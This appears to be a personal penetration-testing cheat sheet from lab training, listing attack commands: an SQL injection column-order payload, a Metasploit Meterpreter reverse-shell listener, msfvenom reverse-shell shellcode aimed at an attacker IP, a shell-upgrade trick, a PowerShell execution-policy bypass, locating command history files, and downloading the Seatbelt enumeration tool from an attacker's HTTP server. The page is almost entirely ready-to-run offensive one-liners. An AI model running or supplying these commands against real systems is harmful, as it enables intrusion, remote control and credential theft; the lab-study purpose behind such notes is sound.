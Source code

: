 find ~/ -type f -exec grep -l "OS{" {} \;      ----FLAG FINDER

'ORDER%20BY%206--//            -----ORDER OF COLUMNS IN SQL

find / -name "flag.txt" -print   -----flag finder in Windows environment

.dir /s /b | findstr /i "OS{"

source myenv/bin/activate              --- TO ACTIVATE THE VIRTUAL ENVIRONMENT

Get-ChildItem -Path C:\ -Recurse -File -Filter 'flag.txt'   ---Powershell cmd

sudo env "PATH=$PATH" autorecon 192.168.225.194 ---AUTORECON

```sh
SHELL=/bin/bash script -q /dev/null
```
UPGRADE THE SHELL

PAYLOADS BY TYPE msfvenom -l payloads | grep "cmd/unix*"  ^44c81b

#linux
find / -type f -name flag.txt 2>/dev/null
#windows cmd
where /r c:\ flag.txt
#windows powershell
gci -recurse -File -ErrorAction SilentlyContinue -Path "\" -filter "flag.txt"


 xfreerdp /v:192.168.215.61 /u:offsec /p:lab /drive:C:\,/home/hollacosta/Downloads            IMPORTANT CMD TO MAP A DRIVE WHILE REMOTING INTO A WINDOWS  COMPUTER

msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.181;set LPORT 443;run;"
METERPRETER REVERSE SHELL LISTENER

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.179 LPORT=4444 -f python -b "\x00\x20" -v shellcode
REGULAR REVERSE SHELL SHELLCODE


powershell -ep bypass 
it's attempting to bypass the execution policy that might be in place, so you can more easily run things like ps1 scripts




**FORCE TO KILL ANY PORT**
For an 'all in one' linux command, check out [fuser](https://linux.die.net/man/1/fuser). `fuser -k 8080/tcp 8080/udp` should kill anything listening on 8080.


(Get-PSReadlineOption).HistorySavePath to get the location of your history file

To transfer files from your kali to a machine using PS 
PS C:\Users\dave> iwr -uri http://192.168.45.179/Seatbelt.exe -Outfile Seatbelt.exe
iwr -uri http://192.168.45.179/Seatbelt.exe -Outfile Seatbelt.exe
(Make sure your http server is open so the machines picks it up)
![[Pasted image 20231024181428.png]]



